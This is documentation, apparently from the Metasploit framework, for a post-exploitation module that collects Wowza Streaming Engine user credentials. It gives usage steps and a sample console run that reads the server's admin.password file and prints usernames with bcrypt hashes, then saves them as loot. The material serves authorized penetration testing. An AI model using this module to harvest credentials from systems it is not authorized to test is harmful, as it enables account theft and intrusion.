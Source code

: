 ## Vulnerable Application

This module collects Wowza Streaming Engine user credentials.


## Installation Steps

Download and install [Wowza Streaming Engine](https://portal.wowza.com/account/downloads).


## Verification Steps

1. Start msfconsole
1. Get a session
1. Do: `use post/multi/gather/wowza_streaming_engine_creds`
1. Do: `set SESSION <session id>`
1. Do: `run`


## Options


## Scenarios

### Wowza Streaming Engine Manager Version 4.8.20+1 (build 20220919162035) on Ubuntu 22.04

```
msf6 > use post/multi/gather/wowza_streaming_engine_creds 
msf6 post(multi/gather/wowza_streaming_engine_creds) > set session 1
session => 1
msf6 post(multi/gather/wowza_streaming_engine_creds) > run

[*] Parsing file /usr/local/WowzaStreamingEngine/conf/admin.password
Wowza Streaming Engine Credentials
==================================

Username  Password                                                      Groups         Encoding
--------  --------                                                      ------         --------
guest     $2y$10$HbioW4tMn6aqtMjrXWxbp.sCCGkRL2bM2prNJG0elnLlcLnsV5XDK  basic          bcrypt
user      $2y$10$PiMwykGY8H9ZX45AwjgAluCXHwvswpCFrIsHmCKqLtSJLITXagjwu  admin|advUser  bcrypt

[+] Credentials stored in: /root/.msf4/loot/20230306035212_default_192.168.200.158_host.wowzastream_500725.txt
[*] Post module execution completed
```

